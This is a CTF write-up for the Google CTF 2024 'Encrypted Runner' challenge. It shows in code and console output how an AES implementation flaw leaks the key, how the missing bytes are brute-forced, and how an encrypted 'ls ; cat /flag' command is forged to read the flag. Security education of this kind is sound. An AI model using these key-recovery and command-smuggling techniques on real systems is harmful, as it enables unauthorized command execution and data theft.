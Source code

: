 ```yaml
---
title: Google CTF 2024 - Pwn Encrypted Runner Writeup
description: Writeup of Pwn Encrypted Runner in Google CTF 2024
date: 2024-06-24 00:00:00 +0800
categories: [Writeup]
tags: [writeup]
---
```


_This writeup is originally posted in [here](https://github.com/ALaggyDev/CTF-Competitions/blob/main/gctf-2024/pwn_encrypted_runner/README.md) in June 2024. This was ported to this blog when the blog was created._

_(11 months later) **Note**: This was my first pwn challenge ever done in an actual CTF competition. Now looking back, my solution was pretty bad. :(_

# Challange

[Challenge in here](https://github.com/google/google-ctf/tree/main/2024/quals/pwn-encrypted-runner)

`You won't be able to run anything but ls, echo or date, hahahaha!`

In the challenge, chal.py will only encrypt safe commands (date, echo, ls).
Our goal is to somehow encrypt arbitary commands (and send it to the remote).

# My solution

## Leaking private aes key

If you try encrypting and decrypting characters above 255, you can see this:
```console
$ python3 chal.py
Welcome to encrypted command runner.
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
encrypt ls 子AA子AA子AA子AA子
Encrypted command: 4e3b832513a430854cf80c64a087f37b

What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
run 4e3b832513a430854cf80c64a087f37b
Output: ls: cannot access 'aAAdAAkAA'$'\021''AA'$'\024': No such file or directory

...
```

`子AA子AA子AA子AA子` has been replaced to `aAAdAAkAA\021AA\024`!

The reason is the following:
```c++
// aes binary
void Cipher(uint *data_buf,long aes_struct)

{
  byte i;
  
  AddRoundKey(0,data_buf,aes_struct); // This is called
  i = 1;
  while( true ) {
    SubBytes(data_buf); // But the first SubBytes() call resets data to \x00
    ShiftRows(data_buf);
    if (i == 10) break;
    MixColumns(data_buf);
    AddRoundKey(i,data_buf,aes_struct);
    i = i + 1;
  }
  AddRoundKey(10,data_buf,aes_struct);
  return;
}
```
After the call of `AddRoundKey(...)`, the first call of `SubBytes(...)` reset characters above 255 to \x00.
Therefore in decrypting (reverse of encrypting), the extra `AddRoundKey(...)` call can be used to leak the private aes key.


Now, there is some mathematical relationship (xor 0x52) between the decryption output and the aes key. But at the ctf, I don't really want to spend time thinking about, so I simply bruteforce it.
```python
def write_key(key_bit: int):
    key = key_bit.to_bytes(1, "little") + b"\x01" * 15

    with open("key", "bw") as f:
        f.write(key)


# The mappings is the same for each key byte position
mappings = []
for key_bit in range(256):
    write_key(key_bit)

    data = "子" + "A" * 15

    enc_str = helper("encrypt", data)

    out = helper("decrypt", enc_str)

    mappings.append(out[0])

print(mappings)
# [82, 83, 80, 81, 86, 87, 84, 85, 90, 91, 88, 89, 94, 95, 92, 93, 66, 67, 64, 65, 70, 71, 68, 69, 74, 75, 72, 73, 78, 79, 76, 77, 114, 115, 112, 113, 118, 119, 116, 117, 122, 123, 120, 121, 126, 127, 124, 125, 98, 99, 96, 97, 102, 103, 100, 101, 106, 107, 104, 105, 110, 111, 108, 109, 18, 19, 16, 17, 22, 23, 20, 21, 26, 27, 24, 25, 30, 31, 28, 29, 2, 3, 0, 1, 6, 7, 4, 5, 10, 11, 8, 9, 14, 15, 12, 13, 50, 51, 48, 49, 54, 55, 52, 53, 58, 59, 56, 57, 62, 63, 60, 61, 34, 35, 32, 33, 38, 39, 36, 37, 42, 43, 40, 41, 46, 47, 44, 45, 210, 211, 208, 209, 214, 215, 212, 213, 218, 219, 216, 217, 222, 223, 220, 221, 194, 195, 192, 193, 198, 199, 196, 197, 202, 203, 200, 201, 206, 207, 204, 205, 242, 243, 240, 241, 246, 247, 244, 245, 250, 251, 248, 249, 254, 255, 252, 253, 226, 227, 224, 225, 230, 231, 228, 229, 234, 235, 232, 233, 238, 239, 236, 237, 146, 147, 144, 145, 150, 151, 148, 149, 154, 155, 152, 153, 158, 159, 156, 157, 130, 131, 128, 129, 134, 135, 132, 133, 138, 139, 136, 137, 142, 143, 140, 141, 178, 179, 176, 177, 182, 183, 180, 181, 186, 187, 184, 185, 190, 191, 188, 189, 162, 163, 160, 161, 166, 167, 164, 165, 170, 171, 168, 169, 174, 175, 172, 173]
```

We can now leak the remote's private key.
By encrypting `ls 子子子子子子子子子子子子子` on the remote, you get `ls \017[\034\203:Q\031z\a\035\252\370\373`. (you can encrypt `ls 子AAAAAAAAAAAA`, `ls A子AAAAAAAAAAA`, ... sequentially to make it easier to read the output)

```console
$ nc encrypted-runner.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to encrypted command runner.
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
encrypt ls 子子子子子子子子子子子子子
Encrypted command: a75d08c42ca08d8151c5485855c4ed13
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
run a75d08c42ca08d8151c5485855c4ed13
Output: ls: cannot access ''$'\017''['$'\034\203'':Q'$'\031''z'$'\a\035\252\370\373': No such file or directory

...
```

We can now recover 13 bytes of the private key:

```python
out = b'ls \017[\034\203:Q\031z\a\035\252\370\373'
key = bytes()
for val in out:
    key += bytes([mappings.index(val)])
```

We still don't know the first 3 bytes of the private key, but we can just bruteforce it.

```python
text = b'ls 0123456789abc'
encrypted = bytes.fromhex("33f7eca2f2d35e7ed18900b952b27bcf")

i = 0
while i < 256 ** 4 - 1:
    new_key = bytes([i % 256, (i // 256) % 256, i // (256 ** 2)]) + key[3:]
    i += 1
    if i % (256 ** 2) == 0:
        print(i // (256 ** 2))

    aes = AES.new(new_key, AES.MODE_ECB)
    enc_text = aes.encrypt(text)

    if enc_text == encrypted:
        print("FOUND IT")
        print(new_key) # new_key = b'N\xa3\x93]\tN\xd1h\x03K(UO\xf8\xaa\xa9'

        exit()
```

With that, we leaked the private key! We can now encrypt arbitary commands.

```python
aes = AES.new(new_key, AES.MODE_ECB)
enc_text = aes.encrypt(b"ls ; cat /flag" + b"\x00\x00")
print(enc_text.hex()) # b110678752de46dabf6f9cd87bb4abd3
```

We can send the hash, and get the glorious flag🚩.

```console
$ nc encrypted-runner.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to encrypted command runner.
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
run b110678752de46dabf6f9cd87bb4abd3
Output: aes
chal.py
key
CTF{hmac_w0uld_h4ve_b33n_bett3r}

...
```
